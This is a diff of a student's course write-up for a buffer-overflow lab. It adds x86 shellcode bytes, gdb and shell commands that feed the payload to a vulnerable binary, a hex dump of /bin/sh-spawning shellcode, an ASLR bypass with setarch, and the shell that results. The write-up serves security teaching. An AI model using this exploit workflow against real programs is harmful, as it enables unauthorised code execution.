

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_1/writeup.md, 2 parts joined by grey strips. Shown at 88% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
[Machine Problem 1] someone should proof read this lol

````diff
--- a/Machine_Problem_1/writeup.md
+++ b/Machine_Problem_1/writeup.md
@@ -391,10 +391,21 @@ Next is to add the memory address of the `buffer`.
 ```
 
 Thus, the final shellcode is `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff`.
+We can store the shellcode to our `egg`
+
+```sh
+$ echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff" > egg
+```
 
 ## Documentation of Proofs
 
 To execute the exploit, run
+
+```
+(gdb) run < egg
+```
+
+or
 
 ```
 (gdb) run <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
@@ -424,0 +518,62 @@ Nonetheless, this is a fun exercise and we have learned a lot from it.
+Checking it once again
+
+```sh
+$ python exploit2.py > eggshell2 && xxd eggshell2
+00000000: 4141 4141 4141 4141 4141 4141 18cd ffff  AAAAAAAAAAAA....
+00000010: 9090 9090 31c0 31db b006 cd80 5368 2f74  ....1.1.....Sh/t
+00000020: 7479 682f 6465 7689 e331 c966 b912 27b0  tyh/dev..1.f..'.
+00000030: 05cd 8031 c050 682f 2f73 6868 2f62 696e  ...1.Ph//shh/bin
+00000040: 89e3 5053 89e1 99b0 0bcd 80              ..PS.......
+
+$ sha256sum eggshell eggshell2
+b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell
+b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell2
+```
+
+Both shellcodes are now equal.
+
+Python can now be used to exploit the vulnerable binary
+
+```sh
+$ python exploit.py | ./vuln
+```
+
+This is done by piping Python's output to the input of the program.
+However, this would not work and would cause an illegal instruction error
+
+```sh
+[1]    1090485 done                              python exploit2.py |
+       1090486 segmentation fault (core dumped)  ./vuln
+```
+
+Because of ASLR randomizing the memory allocations everytime the program is ran.
+To disable ASLR without disabling the system's protection, one can do this
+
+```sh
+$ python exploit.py | setarch $(uname -m) -R ./vuln
+```
+
+This execution may or may not work as the memory addresses in GDB compared to being ran directly are different.
+This can be fixed by figuring out the exact memory address.
+There are many ways to do it but the simplest one that we have already done is through GDB and attaching GDB to the process of the program
+
+```sh
+$ setarch $(uname -m) -R ./vuln
+$ gdb -p <process id>
+```
+
+And if this does not work, we can use `gcore` to dump the current memory of a process id and manually find our input
+
+```sh
+$ gcore <process id>
+```
+
+Once the correct return address is acquired, we can now reran the exploit
+
+```python
+$ python exploit.py | setarch $(uname -m) -R ./vuln
+sh-5.2$ uname -a
+Linux NuclearChicken 6.7.4-arch1-1 #1 SMP PREEMPT_DYNAMIC Mon, 05 Feb 2024 22:07:49 +0000 x86_64 GNU/Linux
+```
+
+And we got a shell!
````
Also changed, not shown: other parts of Machine_Problem_1/writeup.md (+82 -0 lines).
